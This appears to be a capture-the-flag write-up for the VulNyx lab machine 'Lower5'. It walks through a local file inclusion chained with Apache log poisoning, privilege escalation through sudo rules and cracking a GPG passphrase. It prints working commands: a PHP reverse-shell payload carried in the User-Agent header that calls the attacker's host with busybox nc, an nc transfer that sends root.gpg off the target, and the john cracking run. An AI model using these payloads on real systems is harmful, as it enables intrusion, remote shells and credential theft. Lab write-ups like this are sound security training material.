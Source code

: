 ```yaml
---
title: VulNyx - Lower5 Writeup
date: 2025-05-17 20:51:00 +0530
categories: [Vulnyx]
tags: [vulnyx]
---
```


This write-up covers the solution to the low-difficulty machine "Lower5" released on [VulNyx](https://vulnyx.com/). The machine features a Local File Inclusion (LFI) vulnerability paired with log poisoning, ultimately leading to privilege escalation.

## Nmap

```bash

labs/vulnyx/lower5 
❯ nmap -sC -sV -oA lower5 lower.vl 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-22 02:57 EDT
Nmap scan report for lower.vl (192.168.25.5)
Host is up (0.000089s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: vTeam a Corporate Multipurpose Free Bootstrap Responsive template
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:41:41:2B (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.79 seconds
                                                                                                       
```

### Port 80 - HTTP
The site hosted on port 80 uses a script named `page.php`, which includes files based on the `inc` parameter (e.g., `http://192.168.25.10/page.php?inc=about.html`). I suspected a Local File Inclusion (LFI) vulnerability and decided to test it using wfuzz. 

## Local File Inclusion (LFI)

LFI Wordlist Used: [https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt)

```bash
labs/vulnyx/lower5 
❯ wfuzz -c -w file_inclusion_linux.txt -u "http://lower.vl/page.php?inc=FUZZ" --hh=52
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://lower.vl/page.php?inc=FUZZ
Total requests: 2299

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000001815:   200        1862 L   22587 W    256035 Ch   "/var/log/apache2/access.log"                                                                                                                                              
000001016:   200        22 L     26 W       1051 Ch     "/etc/passwd"                                                                                                                                                              

Total time: 1.083493
Processed Requests: 2299
Filtered Requests: 2297
Requests/sec.: 2121.839
                                                                                                                                                                                                                                       
```

### /etc/passwd

```bash
labs/vulnyx/lower5 
❯ curl "http://lower.vl//page.php?inc=/etc/passwd"                            
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
low:x:1000:1000:low:/home/low:/bin/bash
                                       
```

### /var/log/apache2/access.log
Since Apache logs are accessible, making log poisoning a viable path.

```bash
labs/vulnyx/lower5 
❯ curl -s "http://lower.vl//page.php?inc=/var/log/apache2/access.log" | head
zsh: no such file or directory: labs/vulnyx/lower5

192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET / HTTP/1.0" 200 11884 "-" "-"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "OPTIONS / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "POST / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET /.git/HEAD HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET /nmaplowercheck1745305071 HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "OPTIONS / HTTP/1.1" 200 11925 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "GET /robots.txt HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.25.4 - - [22/Apr/2025:08:57:50 +0200] "POST /sdk HTTP/1.1" 404 450 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"

```

## Log Poisoning

### Reverse Shell Injection via User-Agent

We poison the log by sending a malicious `User-Agent` header containing a PHP reverse shell:

```bash
labs/vulnyx/lower5 
❯ curl -s -H "User-Agent: <?php system('busybox nc 192.168.25.4 1234 -e /bin/sh'); ?>" "http://lower.vl/"
```

```bash
labs/vulnyx/lower5 
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.25.4] from (UNKNOWN) [192.168.25.5] 37424
pwd
/var/www/html
whoami
www-data
```
Shell obtained as `www-data`.

## Privilege Escalation

### User flag

```bash
www-data@lower5:/var/www/html$ sudo -l
Matching Defaults entries for www-data on lower5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on lower5:
    (low) NOPASSWD: /usr/bin/bash
```

```bash
www-data@lower5:/var/www/html$ sudo -u low bash 
low@lower5:/var/www/html$ pwd
/var/www/html
low@lower5:/var/www/html$ cd ~
low@lower5:~$ ls
root.gpg  user.txt
low@lower5:~$ cat user.txt 
30a****************************
```

### Root flag
```bash
low@lower5:~$ sudo -l
Matching Defaults entries for low on lower5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User low may run the following commands on lower5:
    (root) NOPASSWD: /usr/bin/pass

```
Running the `pass` command prompts for a GPG passphrase:

```bash
low@lower5:~$ sudo -u root pass root/password
┌───────────────────────────────────────────────────────────────┐
│ Please enter the passphrase to unlock the OpenPGP secret key: │
│ "administrator (password) <admin@lower5.nyx>"                 │
│ 1024-bit RSA key, ID E70EBB1C2CFFB642,                        │
│ created 2025-04-09 (main key ID 9AD17885DA2449A1).            │
│                                                               │
│                                                               │
│ Passphrase: _________________________________________________ │
│                                                               │
│         <OK>                                   <Cancel>       │
└───────────────────────────────────────────────────────────────┘
```

```bash
labs/vulnyx/lower5 
❯ nc -lp 1212 > root.gpg
```

```bash
low@lower5:~$ nc -w3 192.168.25.4 1212 < root.gpg 
```

#### Cracking the GPG passphrase ([John The Ripper](https://blog.atucom.net/2015/08/cracking-gpg-key-passwords-using-john.html))


```bash
labs/vulnyx/lower5 
❯ gpg2john root.gpg > root_hash

File root.gpg                        
```

```bash
labs/vulnyx/lower5 took 5s 
❯ sudo john --wordlist=rockyou.txt root_hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (administrator)     
1g 0:00:02:11 DONE (2025-05-17 07:49) 0.007629g/s 26.74p/s 26.74c/s 26.74C/s Password1..wateva
Use the "--show" option to display all of the cracked passwords reliably
Session completed.            
```
Recovered password: `Password1`

```bash
low@lower5:~$ sudo -u root /usr/bin/pass root/password
r00tP@zzW0rD123
```

```bash
root@lower5:~# cat root.txt 
008****************************
```